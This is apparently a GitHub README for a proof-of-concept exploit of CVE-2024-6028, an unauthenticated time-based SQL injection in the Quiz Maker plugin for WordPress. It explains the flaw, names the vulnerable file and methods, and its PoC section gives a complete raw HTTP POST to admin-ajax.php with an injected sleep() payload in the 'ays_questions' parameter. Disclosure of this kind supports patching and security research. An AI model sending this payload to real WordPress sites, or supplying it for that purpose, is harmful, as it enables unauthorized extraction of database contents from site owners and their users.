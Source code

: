 # CVE-2024-6028-Poc
CVE-2024-6028 Quiz Maker &lt;= 6.5.8.3 - Unauthenticated SQL Injection via 'ays_questions' Parameter

## Description
The Quiz Maker plugin for WordPress is vulnerable to time-based SQL Injection via the 'ays_questions' parameter in all versions up to, and including, 6.5.8.3 due to insufficient escaping on the user supplied parameter and lack of sufficient preparation on the existing SQL query. This makes it possible for unauthenticated attackers to append additional SQL queries into already existing queries that can be used to extract sensitive information from the database.

https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/quiz-maker/quiz-maker-6583-unauthenticated-sql-injection-via-ays-questions-parameter

File: wp-content/plugins/quiz-maker/public/class-quiz-maker-public.php

Class: Quiz_Maker_Public

Workflow: method ays_finish_quiz -> method get_questions_categories and method get_quiz_questions_by_ids
![image](https://github.com/truonghuuphuc/CVE-2024-6028-Poc/assets/20487674/4b2831fa-d6e4-4ce4-b333-406ab4e0b08c)
![image](https://github.com/truonghuuphuc/CVE-2024-6028-Poc/assets/20487674/21791f11-1c1b-4137-9e96-c249172800e5)
![image](https://github.com/truonghuuphuc/CVE-2024-6028-Poc/assets/20487674/6ad46038-4668-4d26-a0c2-1748c7a741db)
![image](https://github.com/truonghuuphuc/CVE-2024-6028-Poc/assets/20487674/580ad4dd-3cbb-4785-b7e1-8fb0340c2864)


## Poc

```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: <Host>
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 114

ays_quiz_id=1&ays_quiz_questions=1,2,3&quiz_id=1&ays_questions[ays-question-4)+or+sleep(if(1>0,5,0)]=&action=ays_finish_quiz
```
![image](https://github.com/truonghuuphuc/CVE-2024-6028-Poc/assets/20487674/3ec61ab7-11fd-4320-8073-6cdd550dac1b)
